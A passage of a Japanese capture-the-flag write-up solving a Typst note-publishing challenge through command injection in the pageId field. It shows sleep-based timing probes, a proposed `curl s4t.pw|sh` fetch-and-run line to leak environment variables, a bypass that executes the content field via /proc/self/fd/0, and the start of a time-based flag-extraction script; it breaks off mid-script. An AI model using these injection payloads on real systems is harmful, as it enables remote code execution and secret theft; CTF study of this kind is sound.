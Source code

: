 ```bash
sys     0m0.000s
```
`$(sleep 3)`を行った際のレスポンスが大きく遅れていることから、コマンドが実行できているとわかる。  
`pageId`が25文字以下との制限があるが、`$(curl s4t.pw|sh)`とし、s4t.pwに適当なシェルスクリプトを置いておけばよいと考える。  
あとはcurlなどで`/proc/self/environ`を読んで外部へ持ち出してやるだけだ。  
ところが、docker-seccomp.jsonに以下のような記述があった。  
```json
{
  "defaultAction": "SCMP_ACT_ALLOW",
  "syscalls": [
    {
      "names": [
        "connect",
        "getaddrinfo",
        "gethostbyname",
        "gethostbyname2"
      ],
      "action": "SCMP_ACT_ERRNO"
    }
  ]
}
```
seccompをかけているので、外部サーバへのリクエストが利用できない。  
つまり25文字以下のRCEは可能であるが、エラーメッセージも返ってこない状態から環境変数`FLAG`を盗み出せという問題設定のようだ。  
25文字でコードゴルフしてもよいがTypst変換サービスである必要もないので、まずは25文字制限を突破することを考える。  
一文字ずつリダイレクトで書き込み可能な場所にあるファイルにスクリプトを書いて実行するのもよいが、面倒かつ書き込めるかも不明だ。  
考えていると`content`をまったく使っていないことに気づく。  
`content`に何らかのスクリプトなりを書いて、`pageId`から参照できないだろうか。  
ここで、ファイルディスクリプタ経由で読みだせそうだと思いつく。  
`/proc/self/fd/0`のstdinをbashで実行してやり、その中の`content`で25文字以下の制限を突破できそうだ。  
以下のように行う。  
```bash
$ time curl -X POST https://typst-note.web.cpctf.space/api/request-publish -H 'Content-Type: application/json' -d '{"pageId": "$(bash /proc/self/fd/0)","content": "sleep 3"}'
Error processing publish request
real    0m3.069s
user    0m0.042s
sys     0m0.010s
$ time curl -X POST https://typst-note.web.cpctf.space/api/request-publish -H 'Content-Type: application/json' -d '{"pageId": "$(bash /proc/self/fd/0)","content": "id && id && id && id && id && sleep 4 # satoki"}'
Publish request received
real    0m4.001s
user    0m0.050s
sys     0m0.000s
```
あとは自由にスクリプトが書けるので、Time-Based Oracleで一文字ずつ特定していけばよい。  
`[ "${FLAG:0:1}" = "C" ] && sleep 3`のように該当箇所の文字が一致した場合にのみ、`sleep 3`するように設定する。  
以下のsolve.pyで行う。  
```python
import time
import requests

url = "https://typst-note.web.cpctf.space/api/request-publish"
headers = {"Content-Type": "application/json"}

known_prefix = "CPCTF{"
flag = known_prefix
i = len(known_prefix)

candidates = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789?!{}_-"

while True:
    found_char = ""
```